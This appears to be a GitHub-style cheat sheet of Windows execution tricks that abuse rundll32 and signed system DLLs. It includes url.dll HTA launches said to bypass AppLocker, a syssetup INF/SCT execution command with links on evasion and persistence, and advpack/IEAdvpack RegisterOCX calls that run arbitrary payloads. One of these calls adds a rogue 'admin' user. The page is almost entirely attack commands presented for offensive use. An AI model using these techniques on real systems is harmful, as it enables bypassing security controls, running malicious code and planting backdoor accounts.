 # Looking for other ways to launch your favorite HTA? Try these:
https://twitter.com/bohops/status/974043815655956481

```MS-DOS
rundll32.exe url.dll,OpenURL "local\path\to\harmless.hta"
rundll32.exe url.dll,OpenURLA "local\path\to\harmless.hta"
```

- Seems to bypass AppLocker Default Rules
- Does not handle actual Web URLs seamlessly

# SCT Execution Remote Via INFScript Useing ( SysSetup )
https://twitter.com/harr0ey/status/975350238184697857

InSide INFScript By @subTee Regsvr32 in INFScript

```MS-DOS
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
```

Raw INFScript Code ?
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415

Video INFScript 
https://www.youtube.com/watch?v=R7rT63905i0

Leveraging INF-SCT Fetch & Execute Techniques For Bypass, Evasion, & Persistence
https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/

# rundll32
```MS-DOS
rundll32 zipfldr.dll, RouteTheCall calc.exe
rundll32 advpack.dll, RegisterOCX calc.exe
rundll32 advpack.dll, RegisterOCX "cmd.exe /c net user admin /add && rem .exe"
```

You looking out for that "RegisterOCX" function in IEAdvpack.dll?  

```MS-DOS
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.dll
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.exe
```

